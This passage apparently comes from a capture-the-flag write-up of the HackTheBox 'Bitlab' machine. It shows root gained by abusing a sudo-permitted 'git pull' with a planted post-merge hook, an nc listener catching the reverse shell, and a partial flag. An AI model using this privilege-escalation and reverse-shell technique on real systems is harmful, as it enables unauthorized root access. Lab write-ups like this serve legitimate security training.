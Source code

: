 The repository was owned by root, so I had to make a local copy in order to create the ‘post-merge’ file in the ‘.git/hooks’ directory. Before executing git pull, I also created a new file and approved the merge request, so the local repository would have to be updated. 

{% highlight bash %}
www-data@bitlab:/tmp/yakuhito/repo$ sudo git pull
sudo git pull
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 4), reused 0 (delta 0)
Unpacking objects: 100% (7/7), done.
From ssh://localhost:3022/root/profile
   454c4b0..fd92099  master      -> origin/master
 * [new branch]      patch-5     -> origin/patch-5
   d9a2aca..95ccb2b  test-deploy -> origin/test-deploy
Updating 454c4b0..fd92099
Fast-forward
 lkwkemf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 lkwkemf


{% endhighlight %}

The shell hung and a revers shell connected on port 443:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/bitlab# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.15.153] from (UNKNOWN) [10.10.10.114] 38932
# whoami
root
# wc -c /root/root.txt
33 /root/root.txt

{% endhighlight %}

The first 2 characters of the root proof are ‘8d’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.


